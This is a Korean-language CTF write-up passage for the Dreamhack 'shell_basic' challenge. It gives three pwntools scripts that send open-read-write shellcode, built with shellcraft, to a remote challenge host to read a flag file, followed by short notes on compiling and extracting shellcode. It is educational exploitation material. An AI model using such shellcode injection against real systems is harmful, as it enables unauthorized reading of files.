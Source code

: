 ## 풀이방법 3. pwntools의 shellcraft를 사용

### 1.

```py
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(r)
shellcode += shellcraft.read("rax", "rsp", 0x30)
shellcode += shellcraft.write(1, "rsp", 0x30)
shellcode = asm(shellcode)

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```

### 2.

```py
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.pushstr(r)
shellcode += shellcraft.open("rsp", 0, 0)
shellcode += shellcraft.read("rax", "rsp", 0x30)
shellcode += shellcraft.write(1, "rsp", 0x30)
shellcode = asm(shellcode)

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```

### 3.

```py
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

shellcode = asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong"))

p.sendlineafter(b'shellcode: ', shellcode)
print(p.recvuntil(b'}'))
```

<br>

## 참고 정리

- `orw.c->orw` : `gcc -o orw orw.c`
- `orw.asm->orw.o` : `nasm -f elf64 orw.asm`
- `orw.o->orw.bin` : `obcopy —dump-section .text=orw.bin orw.o`
